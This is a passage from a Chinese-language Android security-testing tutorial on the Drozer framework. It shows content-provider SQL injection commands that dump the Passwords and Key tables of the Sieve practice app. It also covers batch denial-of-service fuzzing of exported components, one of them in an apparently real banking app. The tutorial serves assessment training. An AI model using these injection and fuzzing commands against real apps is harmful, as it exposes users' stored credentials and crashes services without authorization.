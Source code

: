 通过命令即可拿到数据库的数据  
  
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection "* from Passwords;-"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MH9owWut4hxm8vQbVha9EOVfYQl3jibh8QKP6lhqtsGq1g8sDHKnACVg/640?wx_fmt=png "")  
  
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection "* from Key;-"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7Mib5SjdB1Gtr3n2MrORentjZhXlUb2aqGq0JPVANoftcyXNVGibMdUvRg/640?wx_fmt=png "")  
  
### 2.2.6    批量拒绝服务漏洞  
  
Drozer  
有个最大的优点就是模块化，提供很多API  
接口可以由测试人员自由编写测试脚本，这里推荐一种加载模块的方法  
  
在repository  
中按照python  
包管理的方法新建目录结构，将python  
文件放入相应目录中  
  
dz> module repository create [/path/to/repository]  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MewgOqyFFEfNYTTL05QgAZ3icP5ol3g9zfptXib7cFVlPMdyNzZIJK5aQ/640?wx_fmt=png "")  
  
然后首先要输出崩溃的日志。  
  
adb_server.exelogcat | grep java.lang.RuntimeException  
  
run app.activity.start --component com.buickcom.ccb.ccbnetpay.activity.appresult.ResultActivity  
  
然后再去运行  
  
run exp.fuzz.deny  
包名  
  
这样脚本就会以空数据的方式去启动导出的组件，如果由崩溃的就可以直接在输出的日志中查看到具体崩溃的是哪个组件，下面是批量脚本。  
```
```  
  
  
‍  
  
**03****‍**  
  
**总结**  
  
总之，利用Drozer  
测试安卓app  
可以帮助安全测试人员更好地检测应用程序的漏洞和安全问题，有助于更快的完成Android  
安全评估，可以大大缩减Android  
安全评估的耗时提高应用程序的安全性。  
  
  
         
‍  
  
‍  
  
